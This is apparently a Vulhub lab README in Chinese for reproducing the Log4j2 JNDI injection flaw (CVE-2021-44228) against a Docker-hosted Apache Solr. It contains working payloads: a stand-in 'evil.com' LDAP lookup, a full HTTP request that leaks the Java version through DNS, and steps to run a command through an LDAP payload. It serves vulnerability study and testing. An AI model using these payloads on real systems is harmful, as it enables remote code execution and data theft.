



# Apache Log4j2 lookup JNDI 注入漏洞（CVE-2021-44228）

[中文版本 (Chinese version)](README.zh-cn.md)

Apache Log4j 2 是 Java 语言的日志处理套件，使用极为广泛。在其 2.0 到 2.14.1 版本中存在一处 JNDI 注入漏洞，攻击者在可以控制日志内容的情况下，通过传入类似于 `${jndi:ldap://evil.com/example}` 的 lookup 用于进行 JNDI 注入，执行任意代码。

参考链接：

- https://logging.apache.org/log4j/2.x/security.html
- https://www.lunasec.io/docs/blog/log4j-zero-day/
- https://xz.aliyun.com/t/10649

## 漏洞环境

Apache Log4j2 不是一个特定的 Web 服务，而仅仅是一个第三方库，我们可以通过找到一些使用了这个库的应用来复现这个漏洞，比如 Apache Solr。

执行如下命令启动一个 Apache Solr 8.11.0，其依赖了 Log4j 2.14.1：

```
docker compose up -d
```

服务启动后，访问 `http://your-ip:8983` 即可查看到 Apache Solr 的后台页面。

## 漏洞复现

`${jndi:dns://${sys:java.version}.example.com}` 是利用 JNDI 发送 DNS 请求的 Payload，我们将其作为管理员接口的 action 参数值发送如下数据包：

```
GET /solr/admin/cores?action=${jndi:ldap://${sys:java.version}.example.com} HTTP/1.1
Host: your-ip:8983
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close


```

我们可以在 DNS 日志平台收到相关日志，显示出当前 Java 版本：



因为目标 JDK 版本低于 8u191，所以我们可以使用 `rmi://` 或 `ldap://` 来直接执行 Java 字节码。

你可以使用 [Java Chains](https://github.com/vulhub/java-chains) 来进行漏洞复现。首先，访问 [快速入手](https://java-chains.vulhub.org/zh/docs/guide) 启动 Java Chains，然后参考 [JNDI Basic 利用指南](https://java-chains.vulhub.org/zh/docs/module/jndi#jndibasicpayload) 设置要执行的命令为 `touch /tmp/success` 并生成 JNDI LDAP URL Payload，最后将其替换进上面的数据包中来利用漏洞：



利用完毕后，可见 `touch /tmp/success` 已经成功被执行：


